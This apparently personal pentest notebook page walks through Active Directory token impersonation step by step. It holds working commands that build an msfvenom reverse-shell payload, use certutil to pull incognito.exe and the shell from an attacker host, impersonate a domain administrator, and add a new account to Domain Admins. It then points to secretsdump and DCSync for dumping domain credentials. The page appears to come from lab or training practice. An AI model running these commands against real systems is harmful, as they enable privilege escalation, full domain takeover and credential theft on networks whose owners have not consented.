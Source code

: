 -- -
A user may have access to delegate tokens to be able to impersonate another user or system in AD. We can try to list out available delegate tokens for one or more users and see if it allows us to move laterally or vertically using a delegate token
##### Definition
Tokens are temporary keys that allow you to access a system/network resource w/o having to provide credentials each time you access something. Like a cookie for computers in AD. 
#### Types:
- Delegate - created for logging into a machine/RDP. **Target**
- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script. 
##### Steps
1. Get shell on machine
2. List Tokens
3. Impersonate another user (domain admin)
4. Add new user to new group (domain admins)
5. Compromise DC
### "manual" exploit
If you don't have `incognito.exe`, then you can find a precompiled version [here](https://github.com/FSecureLABS/incognito/blob/394545ffb844afcc18e798737cbd070ff3a4eb29/incognito.exe) or to compile from source, the repo is [here](https://github.com/milkdevil/incognito2?tab=readme-ov-file).
#### Prepare rev shell
You will get an impersonation elevated shell using this reverse shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attack ip> LPORT=9001 -a x64 --platform Windows -f exe -o shell.exe
```
#### File transfer
File transfer over the executables onto the victim Windows host
```powershell
certutil -urlcache http://<attack ip>/incognito.exe incognito.exe
certutil -urlcache http://<attack ip>/shell.exe shell.exe
```
#### Impersonation attack
Make sure to have a netcat listener listening on `9001` or whatever LPORT you set on the rev shell.
```powershell
# list available dleegate tokens
incognito.exe list_tokens -u

# create impersonation reverse shell
incognito.exe execute -c "<domain>/<user>" .\shell.exe
incognito.exe execute -c "MARVEL/administrator" .\shell.exe
```
Now go to the below section "Post-Impersonate" for creating yourself a user in Domain Admins group or other group or other exploit. 
#### resource
- Vector outlined here: [Juggernaut exploit steps](https://juggernaut-sec.com/lateral-movement-token-impersonation/#Impersonating_the_Domain_Admin_with_incognitoexe)
- [Code your own](https://www.insecure.in/blog/token-impersonation-without-metasploit)
### Metasploit Impersonate
#### Get Shell
[[metasploit]]
![[metasploit#^66f29a]]
#### Impersonate User
[[metasploit]]
![[metasploit#^c51a79]]

### Post-Impersonate
#### Add new user to domain admins
obviously, you can add the user to whatever group the user has
```powershell
# Create new user and add to the current domain
net user /add <new username> <new password> /domain
nnet user /add hawkeye Password1@ /domain

# Add new user to desired group, in this case domain admins
net group "<domain group>" <user> /ADD /DOMAIN
net group "Domain Admins" hawkeye /ADD /DOMAIN
```
#### Compromise
From here, you have another account to play with, so loop back to other attacks:
[[Dark Arts/Active Directory/Post Breach/Attacks/Kerberoasting|Kerberoasting]]
[[Hacking Scratch/Mitigations/Active Directory/Pass Attacks|Pass Attacks]]
[[Dark Arts/Active Directory/Post Breach/Attacks/Token Impersonation]]

If you add the new user to domain admins, you can try to get all a password dump of the entire domain using [[Dark Arts/Active Directory/Post Breach/Tools/Attacks/secretsdump|secretsdump]] or DCSync or whatever you want. 